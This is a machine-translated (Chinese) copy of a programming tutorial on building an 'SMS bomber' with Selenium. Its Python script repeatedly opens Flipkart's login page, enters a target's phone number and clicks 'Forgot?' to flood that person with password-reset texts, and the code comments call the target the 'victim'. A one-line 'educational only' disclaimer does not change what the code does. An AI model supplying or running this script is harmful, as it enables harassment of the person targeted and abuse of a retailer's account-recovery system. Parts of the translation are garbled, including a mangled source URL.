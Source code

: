 # Python |使用硒元素的短信轰炸机

> 原文:[https://www . geesforgeks . org/python-SMS-轰炸机-使用-selenium/](https://www.geeksforgeeks.org/python-sms-bomber-using-selenium/)

在这里，我们将学习一个简单的短信炸弹技巧(出于娱乐和教育目的)。Selenium 是一个免费的工具，用于跨不同浏览器的自动化测试。在本教程中，我们将学习在给定次数和间隔内自动发送垃圾短信的次数。
**要求:**
需要安装 **chromedriver** 并设置路径。[点击此处](https://sites.google.com/a/chromium.org/chromedriver/downloads)下载。
**下面是步骤:**

*   首先使用这个[链接去 flipkart 网站。](https://www.flipkart.com/account/login?ret=/)
*   然后通过按 ctrl + shift + i 或进入浏览器设置并手动单击检查元素来单击检查元素。
*   然后找到“输入数字”输入框的类名和“忘记了？”链接。我们以后会用到它。

![FInd class name of 'Ente the number' input field](img/19f59577b490c43760a69b290b229ad5.png) ![Find class name of 'Forgot?' link](img/6dd5884d574b7adabc65e2c3ed6a194f.png)

*   现在，通过为每个元素输入适当的类名来运行脚本。
*   现在它会自动向你朋友的手机号码发送垃圾短信。

**注意:**本教程仅供教育之用，请不要用它来打扰任何人或任何不道德的方式。
下面是实现:

## 蟒蛇 3

```
from selenium import webdriver
import time

# create instance of Chrome webdriver
browser = webdriver.Chrome()

# set the frequency of sms which is approx maximum to 10 per 24 days
frequency = 10

# target mobile number, change it to victim's number and
# also ensure that it's registered on flipkart
mobile_number ="1234567890"

for i in range(frequency):
    browser.get('https://www.flipkart.com/account/login?ret=/')

    # find the element where we have to
    # enter the number using the class name
    number = browser.find_element_by_xpath('//*[@id="container"]/div/div[3]/div/div[2]/div/form/div[1]/input')

    # automatically type the target number
    number.send_keys("1234567890")

    # find the element to send a forgot password
    # request using it's class name
    forgot = browser.find_element_by_link_text('Forgot?')

    # clicking on that element
    forgot.click()

    # set the interval to send each sms
    time.sleep(2)

# Close the browser
browser.quit()
```